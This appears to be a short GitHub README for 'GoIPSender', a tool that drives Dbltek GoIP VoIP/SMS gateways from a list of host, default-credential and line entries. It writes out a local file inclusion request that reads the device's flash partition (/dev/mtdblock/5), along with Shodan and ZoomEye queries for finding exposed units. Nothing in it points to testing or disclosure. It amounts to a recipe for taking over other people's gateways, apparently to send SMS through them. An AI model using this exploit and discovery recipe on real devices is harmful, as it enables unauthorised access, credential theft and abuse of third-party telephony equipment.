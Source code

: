 # GoIPSender

# Config
``host|user:pass,line``
exemple: ``177.30.254.36:81|admin:admin,8``
## LFI GoIP Dbltek
``http://ip:port/default/en_US/frame.html?content=/dev/mtdblock/5``
### Get export results
``zoomeye: /default/en_US/status.html``
``shodan: HTTP/1.0 401 Please Authenticate WWW-Authenticate: Basic realm="Please Login"``
<br/><br/>
![image](https://user-images.githubusercontent.com/74382279/198907983-7b0c6075-fdca-41ef-aba9-fe393d0b7b3e.png)
